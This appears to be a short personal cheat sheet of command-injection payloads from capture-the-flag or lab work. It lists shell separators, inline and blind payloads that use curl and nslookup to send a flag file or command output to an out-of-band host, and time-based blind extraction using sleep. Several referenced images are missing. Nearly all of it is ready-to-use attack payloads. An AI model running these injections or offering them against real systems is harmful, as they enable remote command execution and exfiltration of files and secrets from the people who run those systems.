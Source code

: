 ___

```
;
&&
|
$(command)
```

# Inline

```
`curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(id)`
```

```
`cat /flag.txt > flag.txt`
```

# Blind

```
https://ey8u7q46.eu1.ctfio.com/stock-check.php?id=f3d1426d-16af-4243-a148-d7c874ddfe1a;curl https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun/$(cat /flag.txt | base64)
```

```bash
;curl -X POST -d $(base64 /flag.txt) https://puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind Over DNS

```
;nslookup $(cat /flag.txt).puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun
```

# Blind (No Network)

```
; if [ $(cat /flag.txt | cut -c 1-1) = "f" ]; then sleep 3; fi
```

```
; if [ $(cat /flag.txt | cut -c 1-6) = "flag{7" ]; then sleep 3; fi
```

![[Pasted image 20241215201548.png]]

# File Uploads

![[Pasted image 20241215202307.png]]

![[Pasted image 20241215204332.png]]

# Zip File Uploads

```
$(nslookup `cat /flag.txt`.puuatcmlkisigmqtcmzz2h8t9h4o08jgb.oast.fun)
```

